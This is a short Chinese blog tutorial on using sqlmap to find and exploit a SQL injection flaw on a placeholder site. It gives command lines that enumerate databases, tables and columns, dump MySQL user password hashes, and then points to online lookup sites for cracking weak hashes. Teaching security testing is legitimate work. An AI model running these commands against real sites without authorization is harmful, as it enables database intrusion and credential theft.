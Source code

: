 title: sqlmap的简单应用
date: 2016-05-08 11:50:24
tags:
---

引用下官方介绍：sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 即sqlmap是个开源的测试工具，能自动检测和利用SQL注入漏洞。
本文以获取 DBMS 用户和密码 hash 为例，简单介绍下sqlmap的使用。
sqlmap的使用很简单，其命令选项被归类为目标（Target）选项、请求（Request）选项、优化、注入、检测、技巧（Techniques）、指纹、枚举等。使用如下命令可获取帮助
>python sqlmap.py -h

当你发现疑似可以注入的地方时，使用 -u 参数指定注入页面，如果需以 post 方式注入，可使用 --data 参数，用法如下：
>sqlmap.py -u "http://example.xxx/1.php?id=2&pw=3"  (get方式)

>sqlmap.py -u "http://example.xxx/1.php" --data "id=2&pw=3"  (post方式)

如果可以注入，sqlmap 会给出数据库的相关信息提示。
接下来就该列出 DBMS 数据库了，使用 --dbs 参数：
>sqlmap.py -u "http://example.xxx/1.php" --data "id=2&pw=3"  --dbs

等了一会，枚举完成，根据这过程中的相关提示我们知道目标为运行在 Ubuntu 上的 MySQL ，所以我们的目标是“mysql”这个数据库。
然后需要列出 mysql 数据库中有哪些表，使用 -D 指定数据库，--tables 枚举表：
>sqlmap.py -u "http://example.xxx/1.php" --data "id=2&pw=3"  -D mysql --tables

在结果中有 user 这个表，根据猜想这个表里应该有用户名和密码，下一步枚举这个表中的列，使用 -T 指定表 --columns 枚举列：
>sqlmap.py -u "http://example.xxx/1.php" --data "id=2&pw=3"  -D mysql -T user --columns

结果有好多，其中有 id 和 password 等列，印证了我们的猜想。
最后一步便是把用户名和密码 dump 出来，使用 -C 指定列，使用 --dump 来 dump：
>sqlmap.py -u "http://example.xxx/1.php" --data "id=2&pw=3"  -D mysql -T user -C id,password --dump

经过一番等待之后，结果便出来了。

如果是原始密码弱密码的话，可以轻易在一些解密网站上查得到原始密码。

